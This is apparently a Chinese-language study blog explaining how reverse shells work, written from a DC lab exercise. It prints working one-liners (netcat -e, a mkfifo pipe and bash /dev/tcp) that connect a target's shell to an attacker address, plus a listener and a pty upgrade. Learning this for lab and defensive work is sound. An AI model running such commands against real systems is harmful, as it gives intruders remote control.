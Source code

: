 # 反弹shell原理简单理解

## 前言
最近这几天在做那个DC的靶场，一直在用反弹shell，但是仅仅是知道基本的反弹shell，其他的一点也不知道，所以这次就来学习下反弹shell
## 什么是反弹shell
使用Google hack语法搜索了一下，发现了很多的讲反弹shell的文章，但是具体讲反弹shell原理的并没有几个。
反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。
## 为什么要用反弹shell
反弹shell通常用于被控端因防火墙，权限不足，端口被占用等的情况
举例：假设你现在进入了一个机器的端口，现在该做的就是从本机连接攻击端，这是最常见的攻击方式。远程桌面，web服务，ssh，telnet等等，都是正向连接。
但是现在问题来了：
被控端的IP是动态改变的，无法进行持续的控制
被控端在局域网内，这样就导致你种的马无法进行连接
被控端防火墙受限，只能发送请求不能接收你的请求。
这时，选择利用反弹shell才是上策。因此，反弹shell的方式就是被控端给攻击端发送请求建立连接的一种方式

## 反弹shell的常见利用方式
### 实验环境

``` javascript
攻击机：kali linux：192.168.2.130
被控机：centos：192.168.2.139
```
### 开始
攻击机监听端口：

``` javascript
nc -nlvp 4444
```
被控机执行：

``` javascript
nc -e /bin/bash 192.168.2.130 4444
```
执行效果
![enter description here](./images/1622342826451.png)
之后可以利用python打开交互式界面

``` python
python -c "import pty;pty.spawn('/bin/bash')"
```
![enter description here](./images/1622343003473.png)
得到交互式界面。之后就可以进行提权等的一系列操作。
### 命令说明
在上面用到的命令`nc -e /bin/bash 192.168.2.130 4444`实现了反弹shell。

``` bash
nc #netcat简称，目前基本上所有的Linux都适配了这个工具，可实现任意TCP/UDP端口的侦听。
参数：-n 不反向解析dns，即不通过IP解析域名
		   -v 详细信息输出
		   -l 监听
		   -p 指定端口
		   -e 程序重定向
```

``` bash
/bin/bash #由GNU开发的Shell，主要目标是与POSIX标准保持一致，同时兼顾对sh的兼容，bash从csh和ksh借鉴了很多功能，是各种Linux发行版标准配置的Shell，在Linux系统上/bin/sh往往是指向/bin/bash的符号链接。此外还有其他的shell，如：sh、zsh等
```
所以上面的命令就是使用`netcat`将`shell`发送给指定的IP执行。
但是对于有些nc版本并没有-e参数，这样要如何实现呢？

``` bash
攻击机：nc -nlvp 4444
被控端： mknod [filename] p;nc [攻击机IP] [攻击机端口] 0<[filename] | /bin/sh 1>[filename]
```
效果
![enter description here](./images/1622354813842.png)
![enter description here](./images/1622354823892.png)
解释(个人简单理解)：
mknod命令创建了一个管道，然后通过nc命令将内容输入到管道文件中，然后传递给/bin/sh，sh会将管道文件的命令执行并将标准输出传到该管道，形成了一个回路。
类似命令：

``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip] [port] >/tmp/f
```
上面说的是利用netcat进行的反弹方式，下面介绍一下最常见的bash利用方法。

``` bash
bash -i >& /dev/tcp/192.168.2.130/4444 0>&1
```
简单解释：

``` bash
bash -i：
	bsh前面说了，是Linux中比较常见的一个shell
	-i 这个参数表示的是产生交互式的shell
/dev/tcp/ip/port：
	这个文件是一个特殊的设备文件你如果去访问是无法访问到的
	
```
对于一个文件，Linux中分为七种：

| 文件标识类型 | 文件类型 |
| ------------ | -------- |
| -            | 普通文件 |
| d            | 目录     |
| l            | 符号链接 |
| s            | 套接字   |
| b            | 块设备   |
| c            | 字符设备 |
| p            |       管道   |

![enter description here](./images/1622357141220.png)
![enter description here](./images/1622357226207.png)
虽然说这个文件并不存在但是如果在监听情况下对这个文件进行读写，就能实现反弹shell的效果。
而对于这个经典的反弹shell，其实可以拆分一下，这样子更加方便理解

``` bash
bash -i > /dev/tcp/ip/port
bash -i < /dev/tcp/ip/port

```
理解起来很简单
第一个命令，将输入的指令标准输入到攻击机上面，因此这样子的话，在被控端输入的任何指令都无法得到回显。
![enter description here](./images/1622358014269.png)
图片中上被控端输入的话得不到任何的回显。但是这样子话，我们好像并没有得到想要的效果，所以就有了第二个命令
对于第二个命令，意思就是将输入的命令传给被控端的bash，这样子自然就能执行了

![enter description here](./images/1622358799708.png)
现在，这两个命令结合一下，得到

``` bash
bash -i > /dev/tcp/ip/port 0>&1
```
但是这样的话所有在攻击机执行的命令都会在被控端得到回显
![enter description here](./images/1622359035319.png)
![enter description here](./images/1622359044440.png)
这样子又会让被控端知道你在干什么，所以要进行改良，就得到了最开始给的那个经典的反弹shell
执行之后
![enter description here](./images/1622359117852.png)
![enter description here](./images/1622359129090.png)
得不到回显
同样有类似的相同功能的命令

``` bash
bash -i > /dev/tcp/ip/port 0>&1 2>&1
```
对于这些符号，网上有很多的师傅们都总结过用法以及意思，就不进行总结，这里给一下我看到的一个[师傅的文章](https://xz.aliyun.com/t/2548)写的相关内容
## 总结
对于反弹shell的方法有很多，网络上面有各种各样的形式的反弹shell，但是用起来原理都是一样的，看到有很多形式的反弹shell，就是只有形式不给原理，就想学习一下原理是什么，文中可能因为水平有限解释的不到位，还请海涵。
